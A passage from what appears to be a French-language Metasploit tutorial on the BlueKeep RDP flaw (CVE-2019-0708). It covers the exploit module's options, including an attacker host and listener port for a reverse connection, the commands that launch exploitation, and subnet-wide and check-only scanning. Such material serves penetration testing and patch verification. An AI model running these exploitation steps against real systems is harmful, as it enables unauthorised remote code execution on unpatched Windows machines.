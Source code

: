 ### Options du module BlueKeep
| Option | Description | Valeur recommandée |
|--------|-------------|-------------------|
| `RHOSTS` | IP cible | target_ip |
| `RPORT` | Port RDP | 3389 (défaut) |
| `LHOST` | IP attaquant | attacker_ip |
| `LPORT` | Port d'écoute | 4444 |
| `TARGET` | Architecture cible | Auto (défaut) |
| `GROOMSIZE` | Taille du heap grooming | 200 (défaut) |

### Lancement exploitation BlueKeep
```bash
# Vérification vulnérabilité (optionnel)
check

# Exploitation
exploit

# Si première tentative échoue
exploit -j    # Mode job
exploit -z    # Pas d'interaction session
```

---

## 🎯 4. Scanner BlueKeep avec Metasploit

### Module de scan BlueKeep
```bash
# Module de détection uniquement
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS target_ip
set RPORT 3389
exploit

# Pour multiple cibles
set RHOSTS 192.168.1.0/24
set THREADS 20
exploit
```

### Détection BlueKeep sans exploitation
```bash
# Scan sûr sans risque de crash
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS target
set CHECK_ONLY true
exploit
```

---
